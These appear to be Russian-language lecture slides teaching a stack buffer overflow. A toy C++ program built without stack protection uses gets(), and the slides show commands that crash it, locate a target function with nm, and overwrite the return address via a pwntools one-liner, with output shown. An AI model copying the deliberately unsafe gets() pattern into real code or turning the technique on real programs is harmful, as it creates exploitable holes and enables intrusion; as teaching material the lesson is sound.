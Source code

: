 ```c++
void Boom() {
    std::cerr << "you win" << std::endl;
}

int main(int argc, char* argv[]) {
    char buf[128];
    gets(buf);
    return 0;
}
```

- Код собран без `-fPIE` и без `-fstack-protector`.

---

# Шаги для атаки

- Ловим segfault.

    ```bash
    $ python3 -c 'print("A"*500)' | ./a.out
    fish: Process 21558 terminated by signal SIGSEGV (Address boundary error)
    ```

- Узнаём адрес функции `Boom`. Тут важен флаг `-no-pie`.

    ```bash
    $ nm a.out | grep Boom
    0000000000401212 t _GLOBAL__sub_I__Z4Boomv
    0000000000401186 T _Z4Boomv
    ```

---

# Продолжение атаки на gets

- "Заливаем" стек числом `0x401186`. `-fno-stack-protector`.

    ```bash
    python -c 'from pwn import *; print(p64(0x401186) * 400)' | ./a.out
    you win
    fish: Process 22740 terminated by signal SIGSEGV (Address boundary error)
    ```

---

# Что произошло: stack layout

```text
*----------------*
| return address |     0x401186
*----------------*     0x401186
|                |     ...
|                |     0x401186
| char buf[128]; |     0x401186
*----------------*
```

---